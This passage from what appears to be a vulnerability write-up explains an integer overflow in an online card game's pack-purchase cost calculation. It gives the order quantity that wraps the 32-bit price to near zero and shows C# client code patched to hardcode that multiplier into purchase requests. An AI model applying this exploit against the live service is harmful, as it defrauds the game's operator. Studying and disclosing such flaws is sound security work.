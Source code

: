 ```python
>>> (0xFFFFFFFF/200) + 1 # add one to round up to the nearest int that will overflow
21474837
```

We add `1` to the quotient to get the largest whole number that will surpass the overflow, since Python always rounds down when casting `float`s to `int`s. This means while we are ordering 21 million packs, our payment will be as close to `0` as feasibly possible. Potentially under the price of a single pack! 

We could order a number of packs higher than `21474837` as well, but all that is going to do is make the remainder, the price we are going to pay, higher. That is, until you order a number that, when modded with `0xFFFFFFFF`, will wrap around to `0` again - which would essentially be around the area of multiples of `21474837`.

## Pulling it off

There's something else I forgot to mention. There's no way to actually submit bulk orders for an arbitrary number of packs in the UI. There's just a big button to buy a pack (and preset quantities of 10, 25, etc):

![pack](pack.png)

But that's no problem, now that we know the order quantity needed to perform the overflow, we can just patch our binary with the appropriate opcodes to have the quantity hardcoded into our order! In C# it would look like this:

```cs
...
// PurchaseV2Req is essentially a JSON dictionary that later 
// gets marshalled and sent to the game server to make a purchase
PurchaseV2Req purchaseV2Req = new PurchaseV2Req();
purchaseV2Req.listingId = item.PurchasingId;

// Important Line 1 - Sets quantity being ordered
purchaseV2Req.purchaseQty = quantity * 21474837;

purchaseV2Req.payType = Mercantile.ToAwsPurchaseCurrency(paymentType, this._platform);

Client_PurchaseOption client_PurchaseOption = item.PurchaseOptions.FirstOrDefault(
    (Client_PurchaseOption po) => po.CurrencyType == paymentType);

// Important Line 2 - Calculates cost of order
purchaseV2Req.currencyQty = (
    (client_PurchaseOption != null) ? client_PurchaseOption.IntegerCost : 0) * quantity * 21474837;

purchaseV2Req.customTokenId = customTokenId;
PurchaseV2Req request = purchaseV2Req;
...
```